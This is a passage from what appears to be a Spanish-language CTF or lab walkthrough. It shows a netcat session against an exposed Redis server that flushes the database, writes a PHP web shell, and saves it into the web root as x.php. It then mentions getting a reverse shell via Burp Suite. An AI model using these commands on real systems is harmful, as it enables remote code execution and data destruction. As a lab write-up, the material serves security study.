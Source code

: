 Con esta informacion nos podemos dar una idea que el database container podria ser este
```
➜  soqui nc 172.19.0.2 6379
flushall
+OK
set access "<? system($_REQUEST['cmd']); ?>"
+OK
config set dbfilename x.php
+OK
config set dir /var/www/html/
+OK
save
+OK
```
Nos vamos a la web de `172.19.0.4` # si no  carga dale save otra vez al nc que tenemos arriba

![alt text](/images/r8.png)
Como no deja desde la web por el método que usamos tendremos hacer la revshell con burpsuite

<div style="text-align: center;">
  <img src="./images/r9.png" alt="red" width="600" />
</div>
Ponemos la ip donde tenemos el agente
